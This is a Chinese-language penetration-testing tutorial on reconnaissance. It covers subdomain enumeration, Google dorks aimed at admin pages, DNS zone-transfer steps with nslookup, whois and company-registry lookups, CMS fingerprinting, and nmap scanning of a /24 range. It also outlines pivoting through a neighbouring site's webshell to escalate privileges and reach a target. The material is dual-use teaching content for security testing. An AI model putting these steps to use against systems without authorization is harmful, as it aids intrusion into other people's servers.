## 渗透测试常见手法和思维

### 信息收集

### 简述

信息收集对于渗透测试前期来说是非常重要的，因为只有我们掌握了目标网站或目标主机足够多的信息之后，我们才能更好地对其进行漏洞检测。正所谓，知己知彼百战百胜！

信息收集的方式可以分为两种：主动和被动。

- 主动信息收集：通过直接访问、扫描网站，这种流量将流经网站
- 被动信息收集：利用第三方的服务对目标进行访问了解，比例：Google搜索、Shodan搜索，Zoomeye搜索等


### 收集方法

#### 子域名收集

域名按照层级可以分为顶级域、主域名、子域名等 。例如.net 是顶级域，主域名是sony.net，子域名则是在主域名的前面添加自定义名称，例如像 qq.sony.net 、mail.sony.net 这一类都可统称为子域名。

目前主流的收集方式有：

##### 通过字典的枚举

主要是通过工具中的字典，对字典中的二级域名进行轮询查询，从而得出结果，收集到的数据准确性高，但是疏漏洞率也相对较高。

>   `https://github.com/shmilylty/OneForAll` 是一款功能强大的子域收集工具

**[OneForAll](https://github.com/shmilylty/OneForAll) **




**layer子域名挖掘机**


##### 通过搜索引擎搜索

推荐谷歌搜索

```
site:163.com
site:163.com inurl:/admin/
site:163.com intext:"后台管理"

```


##### 通过网站本身信息泄漏

```
robots.txt
```


##### 第三方服务

```
zoomeye(钟馗之眼)：https://www.zoomeye.org
VirusTotal：https://www.virustotal.com/#/home/search 
DNSdumpster：https://dnsdumpster.com/ 
shodan：https://www.shodan.io
Fofa：https://fofa.so
Censys：https://www.censys.io
Dnsdb搜索引擎：https://www.dnsdb.io
```


##### **通过 HTTPS 证书搜集**




##### DNS域传输漏洞:

1) 输入nslookup命令进入交互式shell

2) Server 命令参数设定查询将要使用的DNS服务器

3) Ls命令列出某个域中的所有域名

4) Exit命令退出程序


#### 域名信息

查询whois
国外的who.is：https://who.is/ 

站长之家：http://whois.chinaz.com/

爱站：https://whois.aizhan.com/ 

微步：https://x.threatbook.cn/ 

这些网站都可以收集whois信息，而且还很全面，主要关注：注册商、注册人、邮件、DNS解析服务器、注册人联系电话。

有需要的还可以查企业的备案信息，主要有三种方式：

天眼查：https://www.tianyancha.com/ 

ICP备案查询网：http://www.beianbeian.com/ 

国家企业信用信息公示系统：http://www.gsxt.gov.cn/index.html 


## 信息收集之网站/主机信息收集

### 0x01 CMS指纹识别

>  Cms 称为内容管理系统，用于网站内容文章管理
>  web渗透过程中，对目标网站的指纹识别比较关键，通过工具或手工来识别CMS系统的自建、二次开发，还是直接使用开源的CMS程序至关重要，通过获取的这些信息来决定后续渗透的测试思路和策略。

#### 识别原理

1. 利用cms特定的文件，路径,目录扫描

   目录扫描对应信息收集来说特为重要，比如robots文件当中就可能泄露网站的后台或者CMS信息等，安装包中便泄露了网站的源码，phpinfo泄露了服务器的一些配置信息，编辑器、上传页面便可以进行利用相关的漏洞进行渗透，mysql、后台管理页面可以进行枚举爆破来尝试登陆进行下一步的安全测试。

   

   

2. ```
   比如说：
   /dede/ #织梦
   /wp-admin #wordpress
   /admincp.php #discuz
   ```

3. 查看robots.txt

   ```
   User-agent:*
   DisAllow:/wp-admin/
   DisAllow:/wp-includes/
   ```

   

4. 根据页面的返回的信息判断

   

   

5. 对比一些静态文件然后比较MD5值

   

#### 使用工具

- 御剑Web指纹识别扫描器
  

- whatweb

  `https://github.com/urbanadventurer/WhatWeb`

  


#### 使用第三方网站

- https://www.yunsee.cn/ 云悉指纹

- http://whatweb.bugscaner.com/ bugscaner博客
- http://finger.tidesec.net/ 潮汐指纹


### 0x02 旁站C段

旁站是旁站指的是同一服务器上的其他网站，很多时候，有些网站可能不是那么容易入侵。那么，可以查看该网站所在的服务器上是否还有其他网站。如果有其他网站的话，可以先拿下其他网站的webshell，然后再提权拿到服务器的权限，最后就自然可以拿下该网站了！

C段C段指的是同一内网段内的其他服务器，每个IP有ABCD四个段，举个例子，192.168.0.1，A段就是192，B段是168，C段是0，D段是1，而C段嗅探的意思就是拿下它同一C段中的其中一台服务器，也就是说是D段1-255中的一台服务器，然后利用工具嗅探拿下该服务器。

- 字段穷举
- 使用Bing接口

```
（1）利用Bing.com，语法为：http://cn.bing.com/search?q=ip:111.111.111.111 
（2）站长之家：http://s.tool.chinaz.com/same 
（3）利用Google，语法：site:125.125.125.*
（4）利用Nmap，语法：nmap  -p  80,8080  --open  ip/24
（5）K8工具、御剑、北极熊扫描器等
（6）在线：http://www.webscan.cc/ 
```


